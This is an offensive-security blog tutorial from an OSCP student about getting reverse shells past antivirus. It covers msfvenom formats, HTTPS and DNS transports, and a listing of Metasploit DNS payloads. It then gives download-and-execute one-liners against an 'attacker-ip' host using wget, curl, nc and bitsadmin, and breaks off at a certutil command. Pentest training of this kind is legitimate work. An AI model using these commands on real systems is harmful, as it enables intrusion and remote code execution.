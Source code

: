 ```yaml
---
layout: "single"
title: "Pop all the shells: A guide for hackers living off the land"
date: "2019-03-23 14:16"
author_profile: true
toc: true
---
```


During my OSCP Journey series, I mentioned a few pitfalls I experienced, primarily surrounding how to deliver, execute, and maintain stable shells throughout the test. I have also taken note that actually getting shells to execute during real-world pentests has grown a lot more difficult as AV solutions and heuristic detection of malware has slowly begun to grow more effective. Such is the way with this cat and mouse game we play with blue-teamers and Antivirus vendors.

However, there still remain some tried and true methods to obtaining shells on modern operating systems that are always going to be hard to stop completely. The trick to getting stable shells is by keeping things simple and using the native, built-in tools that the OS provides us with. You see, AV has to walk a very thin tight-rope between failing to detect malware and blocking legitimate activity. In a lot of ways, their job is several orders of magnitude more difficult than attackers because we only need to find one gap. They have to find both the gap and make sure they can positively identify a malicious action without completely blacklisting it wholesale in a way that blocks legitimate activity and frustrates the user.

Without further ado, here is a list of my choice methods for **delivering**, **executing**, and **stabilizing** shells and backdoors.

## Payload Preparation

Knowing your target environment is the first step. As always, having good information on your target comes before the exciting part of actually breaking into something. Thankfully, the fine folks at Rapid7 and the predecessor developers that gave us the Metasploit Framework provided us with metasploit's sidekick, msfvenom.

### Shell Formats

`msfvenom --help-formats` will quickly drop a list of the different valid types of shells you should be familiar with. The [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) tutorial from OffSec is a good reference, but I'll quickly break down the types of shell formats that are the most reliable and useful during your labs.

* `raw` - Use this for getting the raw shell source-code based on the payload you choose. ie: `php/reverse_php` will give you raw php source code. `perl/reverse_tcp` will give you a raw perl reverse shell script, and so on. Useful for arbitrary PHP upload vulnerabilities, and also for executing a shell via a local script interpreter.
* `dll` - My personal favorite for Windows execution is reflective DLL injection. Windows DLLs are flexible and can be easily injected directly into memory for reliable shell execution, and it automatically is executed in the background as a separate process, which all but guarantees a stable shell.
* `elf/exe` - Executable binaries for Linux/Windows respectively are very useful and are reliable even in the absence of scripting languages or special privileges. Ordinarily this would run the risk of setting off AV, but we're not worried about that here.
* `java/perl/python/ruby/etc` - Normally reserved for exploit development, these language-specific payloads are also applicable, particularly in certain web applications where native code execution can occur. Every now and again, you may find some magical interpreter built into the application. These methods give you the raw bytecode, so to execute it will require the native execution method for that specific language to call the bytecode directly.
* `psh-cmd` - Create a powershell one-liner with this handy format.
* `war` - The unassuming "war" file is a java-based executable that commonly accompanies web applications and automation services like those you find on Jenkins and JBoss instances.

### Shell Transports

Transport methods are how the session will be set up once the shell executes. The most common one is raw TCP, which can often be the most reliable, but is also the lease resilient against AV and especially network monitors and intrusion prevention systems. For those reasons, you'll usually need to make use of encapsulation -- encryption.

**HTTPS** is the most popular for several reasons. HTTP is the most common and most essential type of web-based traffic. It's unlikely to be blacklisted by firewalls, and even if it is filtered, there are usually ways around it. It's also extensible, easy to proxy, and encryption is expected. The only problem you may run into is where next-gen firewalls support **[deep packet inspection](https://en.wikipedia.org/wiki/Deep_packet_inspection) (DPI)** which effectively amounts to [SSL-Stripping](https://blog.checkpoint.com/2016/03/07/targeted-ssl-stripping-attacks-are-real/).

**DNS** transports are less common because they are slow but pretty sneaky when done right. DNS traffic being an essential protocol for normal network operations, DNS is almost never blocked beyond the boundaries of a network. This form of transport works by using this idea to transport communications via DNS request-reply communication over UDP to the attacker's server, acting as an ordinary DNS server.

The only reasonable defense for this is if unapproved DNS servers are blocked by network policies. As you can imagine, this is rarely found in production. The main disadvantage is how slow it is, and that it is an unencrypted protocol; however, with the advent of DNS over SSL, this may change in the future. **[DNSCat](https://wiki.skullsecurity.org/Dnscat)** is currently the most popular standalone tool for this kind of delivery method, but even metasploit has a few of these available

```
msf5 > search type:payload dns

Matching Modules
================

   Name                                                    Disclosure Date  Rank    Check  Description
   ----                                                    ---------------  ----    -----  -----------
   payload/windows/dllinject/reverse_tcp_dns                                normal  No     Reflective DLL Injection, Reverse TCP Stager (DNS)
   payload/windows/dllinject/reverse_tcp_rc4_dns                            normal  No     Reflective DLL Injection, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/dns_txt_query_exec                                       normal  No     DNS TXT Record Payload Download and Execution
   payload/windows/meterpreter/reverse_tcp_dns                              normal  No     Windows Meterpreter (Reflective Injection), Reverse TCP Stager (DNS)
   payload/windows/meterpreter/reverse_tcp_rc4_dns                          normal  No     Windows Meterpreter (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/patchupdllinject/reverse_tcp_dns                         normal  No     Windows Inject DLL, Reverse TCP Stager (DNS)
   payload/windows/patchupdllinject/reverse_tcp_rc4_dns                     normal  No     Windows Inject DLL, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/patchupmeterpreter/reverse_tcp_dns                       normal  No     Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (DNS)
   payload/windows/patchupmeterpreter/reverse_tcp_rc4_dns                   normal  No     Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/shell/reverse_tcp_dns                                    normal  No     Windows Command Shell, Reverse TCP Stager (DNS)
   payload/windows/shell/reverse_tcp_rc4_dns                                normal  No     Windows Command Shell, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/upexec/reverse_tcp_dns                                   normal  No     Windows Upload/Execute, Reverse TCP Stager (DNS)
   payload/windows/upexec/reverse_tcp_rc4_dns                               normal  No     Windows Upload/Execute, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/vncinject/reverse_tcp_dns                                normal  No     VNC Server (Reflective Injection), Reverse TCP Stager (DNS)
   payload/windows/vncinject/reverse_tcp_rc4_dns                            normal  No     VNC Server (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
```

## Payload Delivery

Depending on the host and the vulnerability you're exploiting, figuring out how to get a shell to the target can be the trickest part, especially if you're limited on payload length or execution methods. Here are the most reliable ways I've been able to quickly deliver my shellcode for a stable shell.

### Web Delivery

Simple web delivery is the most straight-forward method, and you can open up your own HTTP server without having to configure Apache/Nginx, or anything like that. All you need is cd to the directory you want to share with your targets (I usually create a `/tmp/payloads` folder) and serve it with this simple python one-liner.  

```
cd /tmp/payloads
python2 -m SimpleHTTPServer <port>           // default port: 8888
```

Now that you've got your web server running, you need to get your target to download it. With Linux, you have several options:

```
# wget download & pipe to shell
wget -O - http://attacker-ip:8888/payload.sh | sh

# Netcat pipe to file & execute in background
nc attacker-ip:8888/payload.sh > /tmp/payload && /tmp/payload &

# Curl silent download & execute
curl -sL http://attacker-ip:8888/payload.sh | sh
```

Windows is a little less straight-forward, but there are still ample possibilities:

```
# Windows bitsadmin download & execute
cmd.exe /c "bitsadmin /transfer eviljob /download /priority high http://attacker-ip:8888/payload.exe c:\payload.exe & start c:\payload.exe"

# Windows Certutil.exe download a base64-encoded binary
certutil.exe -urlsplit -f


```

